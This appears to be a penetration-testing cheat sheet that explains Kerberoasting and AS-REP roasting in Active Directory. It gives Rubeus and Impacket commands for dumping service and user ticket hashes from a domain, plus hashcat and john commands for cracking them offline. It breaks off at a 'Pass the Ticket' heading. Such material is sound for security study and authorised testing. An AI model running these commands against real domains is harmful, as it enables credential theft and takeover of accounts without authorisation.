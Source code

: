 Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account.

#### Kerberoasting w/ Rubeus

This will dump the Kerberos hash of any kerberoastable users.
```
Command : .\Rubeus.exe kerberoast
```
#### Kerberoasting w/ Impacket

This will dump the Kerberos hash for all kerberoastable accounts it can find on the target domains; however, this does not have to be on the targets machine and can be done remotely.
```
Command : sudo python3 GetUserSPNs.py <domain>/<user>:<password> -dc-ip <ip/domain> -request
```
#### Crack those Hashes w/ hashcat
```
Command : hashcat -m 13100 -a 0 <hash> <wordlist>

Command : john --wordlist=<wordlist> <hash>
```
### AS-REP Roasting

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

#### Dumping KRBASREP5 Hashes w/ Rubeus

This command will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.
```
Command : .\Rubeus.exe asreproast
```

#### Dumping KRBASREP5 Hashes w/ Impacket GetNPUsers.py
```
Command : python3 GetNPUsers.py <domain>/ -usersfile <wordlist> -no-pass -dc-ip <ip/domain>
```

#### Crack those Hashes w/ hashcat

crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200 or John the ripper.
```
Command : hashcat -m 18200 <hash> <wordlist>

Command : john --format:krb5asrep <hash> --wordlist=<wordlist>
```
### Pass the Ticket
